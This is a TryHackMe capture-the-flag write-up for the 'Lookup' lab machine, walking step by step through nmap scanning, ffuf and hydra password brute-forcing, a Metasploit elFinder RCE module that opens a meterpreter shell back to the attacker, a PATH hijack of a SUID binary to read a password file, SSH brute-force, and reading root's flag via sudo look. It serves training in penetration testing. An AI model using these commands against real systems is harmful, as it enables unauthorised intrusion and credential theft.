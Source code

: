 # Lookup - TryHackMe Writeup

**TL;DR:** Web brute-force → elFinder RCE → www-data → PATH hijack → think → sudo look → root

## Target
- Machine: `lookup.thm`
- Date: 2025-6-1
- Environment: TryHackMe / CTF

## Steps:

1. Initial scan:

```bash
nmap -sV -sC -T4 -Pn lookup.thm

22/tcp   open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
```

2. Web Enumeration & Login Bypass

- Accessed the main website which revealed a login portal
- Testing with common credentials `admin:admin` showed "Wrong password" - confirming the user `admin` exists

![user admin](images/user_admin.png)



#### Password Brute-force Attempt :

```bash
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d 'username=admin&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 -u http://lookup.thm/login.php


# :[REDACTED]             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 139ms]
```

Found potential password
but login failed with message:
`Wrong username or password. Please try again.`

#### Username Brute-force

```bash
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt  -p [REDACTED] lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong username or password" -V
```

Successfully identified valid credentials:

![New username](images/Hydra-burte-force2.png)

Successful login redirected to `files.lookup.thm` 
Added domain `files.lookup.thm` to `/etc/hosts`.

-------------------------------------------------

After successful login, the application redirected to a file manager interface:

![file manager](images/elfinder.png)

elFinder `is an open-source file manager for web, written in JavaScript using jQuery UI.
Creation is inspired by simplicity and convenience of Finder program.`

The version of the elFinder here is: 2.1.47

#### Find exploit:

![find exploit](images/find_exploit.png)

elFinder 2.1.47 contains a known RCE (Remote Code Execution) vulnerability

#### Metasploit Exploitation

```bash
# Launch Metasploit and configure exploit
use exploit/multi/http/elfinder_archive_cmd_injection
set RHOSTS files.lookup.thm
set LHOST [YOUR_IP]
exploit
```

![MetaSploit](images/msfconsole.png)

#### Successful Exploitation
```bash
meterpreter > shell
Process 1330 created.
Channel 0 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
<var/www/files.lookup.thm/public_html/elFinder/php$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Successfully gained initial foothold as `www-data` user through elFinder RCE vulnerability.

## user flag

SUID Binaries Enumeration:
```bash
find / -perm -4000 -type f 2>/dev/null
```

Found `/usr/sbin/pwm` with SUID permissions

```bash
/usr/sbin/pwm

[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found

```
The `pwm` program was found to execute the `id` command to extract user information.
It then attempts to read the `.passwords` file from the current user's home directory.

#### PATH Hijacking:

```bash
# Create a malicious script to replace the 'id' command
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /tmp/id
chmod +x /tmp/id

# Modify PATH to prioritize /tmp directory
export PATH=/tmp:$PATH

# Exploitaion

/usr/sbin/pwm
```

That will display contents of `/home/think/.passwords`.

#### SSH Brute Force

Copy the passwords to file and run:

```bash
hydra -l think -P pass.txt ssh://lookup.thm
```
![SSH Brute Force](images/ssh-brute-force2.png)


Connect via ssh and get the user flag:

```bash
ssh think@MACHINE_IP


cat user.txt 
[REDACTED]
```

## Root flag

Sudo Privilege Discovery:
```
sudo -l

# User think may run the following commands on ip-10-10-37-54:
    (ALL) /usr/bin/look
```
User `think` can run `/usr/bin/look` as root

Root Flag Extraction:
```
sudo look '' /root/root.txt

[REDACTED]

```
